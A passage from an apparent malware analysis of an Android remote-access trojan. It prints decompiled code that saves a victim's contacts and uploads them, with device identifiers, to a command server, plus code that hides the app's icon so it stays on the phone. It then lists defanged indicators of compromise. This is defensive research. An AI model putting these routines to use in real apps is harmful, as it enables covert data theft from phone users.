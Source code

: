 ```cs
            File file4 = Common.File;
            File file5 = Common.File;
            File.WriteString(File.getDirInternal(), "Contacts.txt", str6);
            File file6 = Common.File;
            _ht._postfile(_port1 + "/upload.php?result=ok&action=upload1&androidid=" + _android + "&opr=" + _opr + "&model=" + _model, File.getDirInternal(), "Contacts.txt");
        }
```

The malware will try to maintain presistance to the victim's phone. So the victim won't suspect about the installed APK. So the malware will hide the icon of the malicious APK. 

```cs
 public static String _hideapp(boolean z) throws Exception {
        Reflection reflection = new Reflection();
        B4AApplication b4AApplication = Common.Application;
        String packageName = B4AApplication.getPackageName();
        StringBuilder sb = new StringBuilder();
        B4AApplication b4AApplication2 = Common.Application;
        sb.append(B4AApplication.getPackageName());
        sb.append(".main");
        Object CreateObject2 = reflection.CreateObject2("android.content.ComponentName", new Object[]{packageName, sb.toString()}, new String[]{"java.lang.String", "java.lang.String"});
        reflection.Target = reflection.GetContext(processBA);
        reflection.Target = reflection.RunMethod("getPackageManager");
        reflection.Target = reflection.RunMethod4("setComponentEnabledSetting", new Object[]{CreateObject2, Integer.valueOf(z ? 2 : 1), 0}, new String[]{"android.content.ComponentName", "java.lang.int", "java.lang.int"});
        return "";
    }

```

# Dynamic analysis

Now we will try to run the malicious APK on android emulator using `Android studio` and intercept the http/s using `Burp Suite`. After installing the malware.

<p align="center">
  <img src="/assets/images/MA/irata/4.gif" />
</p>
<center><font size="3"> <u>Figure</u>(4) <u></u> </font></center>
<br>



# IoC

| No.  | Description             | Hash and URLs                                                |
| :--- | ----------------------- | ------------------------------------------------------------ |
| 1    | The APK hash (MD5)      |  ce41d55ee66d509e1e2043d9e238f65a                            |
| 2    | C2 server               |  hxxp:///usenlghusk.gq/USK/rat.php                           |
| 3    | C2 Server               |  hxxp://usenlghusk.gq/USK                                    |
